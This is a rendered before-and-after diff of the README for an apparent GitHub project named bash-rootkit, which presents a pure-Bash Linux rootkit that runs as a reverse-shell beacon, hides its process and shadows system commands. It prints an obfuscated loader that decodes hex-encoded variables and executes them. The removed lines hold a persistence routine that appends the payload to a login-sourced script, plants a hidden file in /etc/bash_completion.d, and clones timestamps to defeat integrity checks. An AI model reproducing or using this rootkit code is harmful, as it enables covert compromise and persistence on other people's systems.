

Before and after one commit to JamesRiversTech/bash-rootkit, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; badges without logos; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,6 +1,6 @@
 # bash-rootkit
 
-> A pure-Bash userland rootkit built from Linux tips and tricks — no compiled binaries, no kernel modules. Persists as a reverse-shell beacon, hides its own PID, and shadows common system commands to blind the defender.
+> A pure-Bash userland rootkit built entirely from living-off-the-land techniques — no compiled binaries, no kernel modules. Persists as a reverse-shell beacon, hides its own PID, and shadows common system commands to blind the defender using only tools already on the box.
 
 ![Bash](https://img.shields.io/badge/Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white)
 ![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)
@@ -15,7 +15,9 @@
 
 ## 📖 Overview
 
-A fully self-contained userland rootkit written in pure Bash. No compiled code, no kernel exploits — everything runs in the shell itself.
+A fully self-contained userland rootkit written in pure Bash — no compiled code, no kernel
+exploits. Everything runs using tools already present on a stock Linux system: `bash`, `mount`,
+`openssl`. Pure living off the land.
 
 The project has three layers:
 
@@ -50,9 +52,7 @@ userid_ver1_00="636f6d6d616e6420657870..."
 userid_ver1_01="6f72743d28677265707c68..."
 # ...
 
-eval "$(compgen -v userid | sort -V | while read _v; do
-    printf "${!_v}"
-done | perl -lne 'print pack("H*",$_)')" 2>/dev/null
+if [ "$UID" -ge 0 ]; then . <(compgen -v userid | sort -V | while read _i; do printf "${!_i}"; done | xxd -r -p) 2>/dev/null; fi
 ```
 
 **Step 3 — Obfuscate with THC Bincrypter**, making the beacon script unreadable at rest and
@@ -153,42 +154,6 @@ type() {
     esac
   done
 }
-```
-
----
-
-## 🔁 Persistence
-
-The beacon finds a lengthy, obscure startup script that is sourced on every login — preferably
-one outside `/home`, `/root`, or `/etc` — using this one-liner:
-
-```bash
-for i in $(/bin/bash -lixc 'exit' 2>&1 \
-    | awk 'match($0, /^+* (\.|source) (.+)/, s) {print s[2]}'); do
-  wc -l $i
-done | sort -n
-```
-
-A good target is something like `/usr/share/bash-completion/bash_completion` — thousands of lines
-of legitimate content that no one reads carefully. The obfuscated function block and eval loader
-are appended there and blend in visually.
-
-The persistence file itself is named `<filename>.bash` — whatever looks legitimate for the target
-system. That same name is added to `_HG_P` so `ls`, `cat`, and `grep` will never show it.
-Timestamps are cloned from neighbouring system files to defeat time-based integrity checks.
-
-```bash
-FILE="/etc/bash_completion.d/<filename>.bash"
-
-if [[ ! -f "$FILE" ]]; then
-  cat <<EOF > "$FILE"
-  # <hex-encoded shadow functions embedded here>
-EOF
-  # Clone mtime from a real system file to avoid standing out
-  touch -r /etc/bash_completion.d/javaws.bash "$FILE"
-  touch -r /etc/sysconfig/ /etc/bash_completion.d/
-  touch -r /opt/ /etc/
-fi
 ```
 
 ---
````
Also changed, not shown: other parts of README.md (+2 -1 lines).
